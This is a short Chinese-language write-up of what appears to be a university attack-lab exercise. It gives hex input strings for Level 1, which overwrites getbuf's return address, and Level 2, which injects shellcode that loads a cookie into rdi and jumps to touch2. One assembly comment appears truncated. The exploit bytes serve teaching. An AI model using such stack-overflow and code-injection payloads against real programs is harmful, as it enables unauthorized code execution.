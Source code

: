 ### Level 1

```c
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
/* 40 dummy bytes */

c0 17 40 00 00 00 00 00
/* inject return address*/
```

`getbuf`返回前做了`add $0x28,%rsp`，这时%rsp位置上就是函数返回地址，把它换掉即可。

### Level 2

```
48 c7 c7 fa 97 b9 59  /* mov $0x59b997fa, %rdi */
68 ec 17 40 00        /* pushq  $0x4017e */
c3                    /* retq */
/* byte code = 13 bytes */

01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 
/* 27 dummy bytes */

78 dc 61 55 00 00 00 00
```

和Level1一样hack返回地址，这次跳回输入缓冲区的头部，这里放一段inject code。需要把待传参的参数放在rdi寄存器里，然后push一个`touch2`的返回地址并`ret`。

